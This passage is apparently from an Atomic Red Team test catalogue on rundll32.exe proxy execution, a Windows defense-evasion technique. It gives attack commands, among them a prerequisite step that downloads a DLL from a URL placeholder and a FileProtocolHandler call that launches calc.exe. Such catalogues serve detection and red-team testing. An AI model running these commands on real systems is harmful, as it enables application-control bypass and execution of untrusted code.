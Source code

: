 ```cmd
rundll32.exe #{dll_file},krnl
```




#### Dependencies:  Run with `powershell`!
##### Description: The DLL file to be called must exist at the specified location (#{dll_file})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "#{dll_url}" -OutFile "#{dll_file}"
```




<br/>
<br/>

## Atomic Test #15 - Rundll32 execute command via FileProtocolHandler
Test execution of a command using rundll32.exe and the FileProtocolHandler technique.
Upon execution, calc.exe will be launched.
This technique is documented by Levan Abesadze - https://medium.com/@Wolverineisstillalive/system-binary-proxy-execution-rundll32-bypass-method-790871e1f2b7

**Supported Platforms:** Windows


**auto_generated_guid:** f3ad3c5b-1db1-45c1-81bf-d3370ebab6c8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_to_execute | Command for rundll32.exe to execute | string | calc.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32.exe url.dll,FileProtocolHandler #{command_to_execute}
```






<br/>
<br/>
